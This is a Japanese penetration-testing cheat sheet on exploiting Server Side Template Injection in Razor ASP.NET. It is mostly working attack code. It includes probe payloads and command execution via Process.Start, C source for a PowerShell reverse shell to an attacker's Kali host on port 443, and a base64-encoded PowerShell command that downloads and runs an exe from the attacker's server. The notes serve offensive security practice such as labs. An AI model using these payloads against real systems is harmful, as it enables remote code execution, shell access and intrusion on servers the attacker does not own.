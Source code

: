 # Server Side Template Injection

Razor ASP.NET

## 脆弱性診断

    ``` c#
        //画面に 49 が返ってくればOK
        @(7*7)
        @() 
        @("{{code}}") 
        //下の方法でいろんなコマンドが実行できる
        @System.Diagnostics.Process.Start("cmd.exe","コマンド");
    ```

## Exploit

* reverse shell
  * msfvenomでexeファイルを作成
  * 下のcのソースを使ってexeを作成して転送(以外と万能)

``` c
    #include <windows.h>
    #include <stdio.h>

    int main(){
        system("powershell.exe -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('<kaliのIP>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\"");
        return 0;
    }
```

* アプリケーション上で実行させるコマンドの生成

``` ps
    $command = ' iwr -uri http://<kali ip>/XXX.exe -OutFile C:\Windows\Tasks\XXX.exe; C:\Windows\Tasks\XXX.exe'
    $bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
    $encodedCommand = [Convert]::ToBase64String($bytes)
```

作成後はファイル転送してncで待ち受け

* 作成したコードを貼り付けて実行

``` c#
    @System.Diagnostics.Process.Start("cmd.exe","/c powershell.exe -enc
    IABpAHcAcgAgAC0AdQByAGkAIABoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAyAC4AMQAxADEALwB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlACAALQBPAHUAdABGAGkAbABlACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFQAYQBzAGsAcwBcAHQAZQBzAHQAbQBlAHQANgA0AC4AZQB4AGUAOwAgAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABUAGEAcwBrAHMAXAB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlAA==");
```
